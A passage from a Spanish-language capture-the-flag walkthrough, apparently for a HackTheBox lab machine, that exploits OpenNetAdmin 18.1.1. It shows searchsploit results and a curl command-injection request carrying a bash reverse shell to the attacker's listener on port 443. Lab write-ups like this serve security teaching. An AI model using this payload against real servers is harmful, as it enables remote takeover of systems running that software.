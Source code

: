 Ya vemos algo que nos debe de llamar la atención, en el recurso `/music` tenemos un **Login**, así que vamos a darle click.

![](/assets/images/htb-openadmin/openadmin-web3.png)

Nos encontramos ante ***OpenNetAdmin*** de versión 18.1.1; por lo que vamos a buscar posibles exploits relacionados y encontramos uno que nos puede ayudar:

```bash
❯ searchsploit opennetadmin 18.1.1
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)                                   | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                                                    | php/webapps/47691.sh
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Si checamos `php/webapps/47691.sh`, ya que en este sitio no ocupamos metasploit, vemos que manda cierta data por el método POST mediante la herramienta `curl`; así que vamos a quedarnos con eso y tratar de entablarnos una reverse shell, por lo que nos ponemos en escucha por el puerto 443:

```bash
❯ curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >& /dev/t
cp/10.10.14.27/443 0>&1'&xajaxargs[]=ping" "http://10.10.10.171/ona/"
```

Vemos que no se nos entabla la reverse shell, así que vamos a modificar los ampersand (&) por su valor en URL encode (%26).
